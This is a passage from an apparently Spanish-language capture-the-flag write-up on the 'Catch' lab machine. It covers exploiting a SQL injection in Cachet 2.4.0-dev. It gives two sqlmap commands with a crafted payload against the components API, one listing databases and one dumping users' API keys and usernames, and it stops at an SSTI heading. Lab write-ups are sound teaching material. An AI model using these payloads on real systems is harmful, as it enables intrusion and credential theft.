 Utilizamos las credenciales encontradas para acceder al dashboard que funciona en el puerto 8000.

En la sección de configuración podemos ver la versión de la aplicación Cachet: **2.4.0-dev**

---

## Explotación de Cachet - SQL Injection

Buscamos vulnerabilidades para la versión y encontramos:
- https://twitter.com/therceman/status/1432929600141725697
- https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html

### Explotación con SQLMap

```bash
sqlmap -u "http://10.10.11.150:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+%22" --dbs --batch
```

**Bases de datos encontradas**:
```
[*] cachet  
[*] information_schema  
[*] mysql  
[*] performance_schema  
[*] sys  
```

### Extracción de datos de usuarios

```bash
sqlmap -u "http://10.10.11.150:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+%22" -D cachet -T users -C api_key,username --dump --batch
```

![Datos extraídos](/secciones/posts/imagenes/catch/save3.png)

---

## Server Side Template Injection (SSTI)
